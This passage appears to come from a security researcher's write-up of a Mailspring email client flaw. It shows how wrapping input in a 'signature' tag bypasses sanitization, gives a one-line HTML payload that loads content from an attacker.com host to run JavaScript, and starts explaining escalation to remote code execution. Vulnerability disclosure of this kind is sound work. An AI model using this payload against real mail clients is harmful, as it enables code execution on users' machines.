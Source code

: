 Looking at this HTML draft snippet, we understand that Mailspring adds content to the window, such as the user’s mail signature, custom CSS, timestamp, etc. The `signature` tag at the start of the draft caught our attention. Since it's a custom tag and appended before the replied/forwarded malicious email content, maybe the sanitization there is different? 

Indeed, embedding the malicious input in a `signature` tag avoided the 2nd sanitization. As a result, this payload allows the execution of arbitrary JavaScript code:

```html
<svg><style><a title="</style><signature><object data='https://attacker.com/payload'></object></signature>">
```

<img src="/img/blogs/mailspring/image7.png" style="width: 100%;"/>

## From XSS to RCE
The [main](https://github.com/Foundry376/Mailspring/blob/3be72eee5c10a43f6fb9924ab1e9a33bb0f5216e/app/src/browser/mailspring-window.ts#L100) window of Mailspring uses `nodeIntegration: true` and `contextIsolation: false`, meaning any JavaScript code that runs in this context can also access the internal NodeJS objects and thus execute arbitrary code on the machine. Because the payload until this point has been executed in the origin of `attacker.com`, which blocks the attacker from accessing the main parent window due to the [same-origin policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy), an attacker would need to find a way to escalate the impact from XSS to RCE. 
